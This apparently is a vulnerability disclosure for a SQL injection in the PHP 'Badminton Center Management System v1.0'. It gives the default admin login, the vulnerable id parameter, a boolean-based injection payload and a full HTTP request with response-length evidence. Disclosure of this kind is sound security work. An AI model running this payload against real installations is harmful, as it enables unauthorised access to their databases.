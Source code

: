 # Badminton Center Management System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15318/badminton-center-management-system-phpoop-free-source-code.html

Current database name: bcms_db,length is 7

Vulnerability File: /bcms/admin/?page=court_rentals/view_court_rental&id=

Vulnerability location: /bcms/admin/?page=court_rentals/view_court_rental&id=, id

[+] Payload: /bcms/admin/?page=court_rentals/view_court_rental&id=2%27%20and%20length(database())%20=7--+ // Leak place ---> id


```sql
GET /bcms/admin/?page=court_rentals/view_court_rental&id=2%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=qq2e8htekg3g2rkgtbq38p0jnv
Connection: close
```

When length (database ()) = 6, Content-Length: 31307
![image](https://user-images.githubusercontent.com/54017627/170617118-c7c6153e-6fd2-44b4-a749-d42a84fdee60.png)

![image](https://user-images.githubusercontent.com/54017627/170616986-feb90eea-e841-4a2d-ae8d-0c845fafde71.png)

When length (database ()) = 7, Content-Length: 32562
![image](https://user-images.githubusercontent.com/54017627/170617065-98c515db-86e0-45a8-b9c5-817b5e27090f.png)

![image](https://user-images.githubusercontent.com/54017627/170616845-803b358a-0dbb-43ac-be4c-7166a88e030c.png)
